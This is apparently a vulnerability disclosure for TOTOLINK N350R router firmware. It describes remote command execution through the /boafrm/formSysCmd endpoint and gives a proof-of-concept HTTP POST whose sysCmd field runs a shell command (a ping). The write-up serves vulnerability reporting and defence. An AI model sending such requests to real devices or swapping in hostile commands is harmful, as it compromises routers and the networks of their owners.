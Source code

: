 ### Overview

- Vendor : TOTOLINK
- Product : N350R
- Version : TOTOLINK_N350R_v2-IP04226A-8196C-SPI-2M16M-V1.2.3-B20130826_1_2701_ALL_0.web

### Vulnerability details

A vulnerability exists in TOTOLINK_N350R_v2-IP04226A-8196C-SPI-2M16M-V1.2.3-B20130826 that allows a remote attacker to execute arbitrary code through the /boafrm/formSysCmd component.

![](./images/3.png)

![](./images/2.png)

![](./images/1.png)

### PoC

```
POST /boafrm/formSysCmd HTTP/1.1
Host: 192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: */*
Connection: close
Content-Length: 29

sysCmd=ping -c 1 192.168.0.60
```
